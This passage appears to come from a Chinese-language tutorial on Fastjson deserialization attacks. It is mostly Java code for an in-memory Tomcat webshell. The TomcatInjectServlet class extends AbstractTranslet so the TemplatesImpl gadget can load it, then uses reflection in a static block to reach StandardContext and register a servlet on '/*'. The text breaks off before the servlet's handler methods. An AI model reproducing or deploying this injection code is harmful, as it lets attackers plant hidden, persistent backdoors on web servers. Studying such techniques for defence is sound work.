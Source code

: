 ```java
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```
在这里需要注意的是，TomcatInjectServlet 需要实现Servlet接口，和Filter一样，因为需要被TemplatesImpl类来加载，所以需要继承AbstractTranslet类
```java
package com.fastjson.test;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;

import javax.servlet.*;
import java.io.IOException;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class TomcatInjectServlet extends AbstractTranslet implements Servlet {
    /**
     * webshell命令参数名
     */
    private final static String servletUrlPattern = "/*";
    private final static String servletName = "test";

    static {
        try {
            ServletContext servletContext = getServletContext();
            if (servletContext != null) {
                Field appctx = servletContext.getClass().getDeclaredField("context");
                appctx.setAccessible(true);
                ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
                Field stdctx = applicationContext.getClass().getDeclaredField("context");
                stdctx.setAccessible(true);
                StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
                Servlet demo = new TomcatInjectServlet();
                org.apache.catalina.Wrapper demoWrapper = standardContext.createWrapper();
                //设置Servlet名等
                demoWrapper.setName(servletName);
                demoWrapper.setLoadOnStartup(1);
                demoWrapper.setServlet(demo);
                demoWrapper.setServletClass(demo.getClass().getName());
                standardContext.addChild(demoWrapper);
                //设置ServletMap
                standardContext.addServletMapping(servletUrlPattern, servletName);
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

```